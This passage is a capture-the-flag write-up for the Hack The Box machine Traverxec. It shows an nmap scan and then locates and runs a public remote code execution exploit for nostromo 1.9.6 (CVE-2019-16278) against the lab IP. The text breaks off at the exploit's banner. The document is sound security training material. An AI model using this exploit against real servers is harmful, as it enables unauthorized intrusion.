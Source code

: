 ```yaml
---
permalink: /posts/HTB/Traverxec
title:  "HTB Traverxec"
author: Luc Kolen
description: "Traverxec is an easy Linux machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Linux
  - Nostromo
  - John
  - Hashcat
---
```

# 10.10.10.165 - Traverxec

|Hack The Box|Created by|Points|
|---|---|---|
|[Link](https://www.hackthebox.eu/home/machines/profile/217)|[jkr](https://www.hackthebox.eu/home/users/profile/77141)|20|

- [10.10.10.165 - Traverxec](#101010165---traverxec)
  - [Open ports](#open-ports)
  - [Nostromo to reverse shell](#nostromo-to-reverse-shell)
  - [Privilege escalation](#privilege-escalation)
    - [Hash crack](#hash-crack)
    - [Access to sub directory](#access-to-sub-directory)
  - [David to root](#david-to-root)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/HTB/Traverxec$ nmap -vv --reason -Pn -sV -sC --version-all 10.10.10.165
```

|Port|Service|Version
|---|---|---|
tcp/22|ssh|OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
tcp/80|http|nostromo 1.9.6

## Nostromo to reverse shell

Nmap found that the application serving webpages on port 80 is `nostromo 1.9.6`. We can find a remote code execution exploit for this version.

```bash
luc@kali:~/HTB/Traverxec$ searchsploit nostromo
...
nostromo 1.9.6 - Remote Code Execution | multiple/remote/47837.py
...
luc@kali:~/HTB/Traverxec$ searchsploit -m multiple/remote/47837.py
luc@kali:~/HTB/Traverxec$ nano 47837.py
...
cve2019_16278.py -> # cve2019_16278.py
help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'
luc@kali:~/HTB/Traverxec$ python 47837.py 10.10.10.165 80 whoami


                                        _____-2019-16278
        _____  _______    ______   _____\    \
```